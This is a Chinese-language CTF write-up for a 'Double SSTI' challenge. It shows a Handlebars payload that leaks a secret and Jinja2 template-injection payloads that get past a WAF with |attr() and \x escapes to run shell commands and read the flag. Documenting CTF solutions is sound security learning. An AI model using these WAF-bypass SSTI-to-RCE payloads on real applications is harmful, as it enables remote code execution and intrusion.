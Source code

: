 # Double SSTI

觀察傳進去 template 的變數，有包含 secret，但是 WAF 擋住了包含 `secret` 子字串的 `name`，所以我的策略就是構造一個 payload 來印出 `@root` 下的所有變數 

```
{{#each @root}} {{@key}}: {{ this }} {{/each}}
```

把 payload url encode 後，可以得到：`https://double-ssti.chal.h4ck3r.quest/welcome?name=%7B%7B%23each%20%40root%7D%7D%20%7B%7B%40key%7D%7D%3A%20%7B%7B%20this%20%7D%7D%20%7B%7B%2Feach%7D%7D`

就可以破出第一層的 secret 為 `77777me0w_me0w_s3cr3t77777`

![image-20211119044524467](img/image-20211119044524467.png)

接著就可以進到 stage 2 的頁面：/2nd_stage_77777me0w_me0w_s3cr3t77777

![image-20211119044656886](img/image-20211119044656886.png)

構造 jinja SSTI 的 payload: `{{request['application']['__globals__']['__builtins__']['__import__']('os').popen('ls /').read()}}`

但發現 `[` `]` 被擋了，所以要使用 jinja 提供的 `|attr('xxx')` 來 bypass。發現 `.` 還有 `_` 都被擋了，要把他轉成 `\x` escape string。最後的 payload 就可以做到 RCE：

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls /')|attr('read')()}}
```

![image-20211119052208920](img/image-20211119052208920.png)

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat /y000_i_am_za_fl4g')|attr('read')()}}
```

![image-20211119052319201](img/image-20211119052319201.png)